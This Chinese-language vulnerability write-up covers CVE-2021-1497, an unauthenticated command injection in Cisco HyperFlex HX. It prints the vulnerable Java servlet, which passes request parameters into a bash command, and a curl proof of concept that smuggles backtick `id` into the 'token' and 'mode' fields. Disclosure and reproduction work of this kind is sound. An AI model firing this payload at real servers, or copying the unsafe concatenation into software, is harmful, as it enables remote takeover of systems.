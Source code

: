 # Cisco HyperFlex HX storfs-asup 远程命令执行漏洞 CVE-2021-1497

## 漏洞描述

思科在研究人员Nikita Abramov和Mikhail Klyuchnikov发现的HyperFlex HX数据平台中修复了两个Unauth RCE和一个任意文件上载

## 漏洞影响

<a-checkbox checked>Cisco HyperFlex HX</a-checkbox></br>

## 漏洞复现

出现漏洞的代码

```java
 protected void processRequest(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {
    String action = request.getParameter("action");
    if (action == null) {
      String msg = "Action for the servlet need be specified.";
      writeErrorResponse(response, msg);
      return;
    }
    try {
      String token = request.getParameter("token");
      StringBuilder cmd = new StringBuilder();
      cmd.append("exec /bin/storfs-asup ");
      cmd.append(token);
      String mode = request.getParameter("mode");
      cmd.append("  ");
      cmd.append(mode);
      cmd.append("  > /dev/null");
      logger.info("storfs-asup cmd to run : " + cmd);
      ProcessBuilder pb = new ProcessBuilder(new String[] { "/bin/bash", "-c", cmd.toString() });
      logger.info("Starting the storfs-asup now: ");
      long startTime = System.currentTimeMillis();
      Process p = pb.start();
      InputStream errStream = p.getErrorStream();
      String errMsg = FileUtils.readToString(errStream);
      int exitCode = p.waitFor();
      long timeTaken = System.currentTimeMillis() - startTime;
      logger.info("storfs-asup command completed in (" + timeTaken + " ) milliseconds, with exit code (" + exitCode + ") and error message: " + errMsg);
      errStream.close();
      OutputStream outStream = p.getOutputStream();
      outStream.flush();
      outStream.close();
      if (exitCode != 0)
        throw new Exception(errMsg);
    } catch (IOException ex) {
      logger.error("Failed to generate asup: " + ex);
    } catch (Exception ie) {
      logger.error("Failed to run the /bin/storfs-asup command.");
    } finally {
      logger.info("Done executing asup command. ");
    }
  }
```



POC为

```plain
curl -v http://xxx.xxx.xxx.xxx/storfs-asup -d 'action=&token=`id`&mode=`id`'
```

![img](../../../.vuepress/public/img/cisco-9.png)

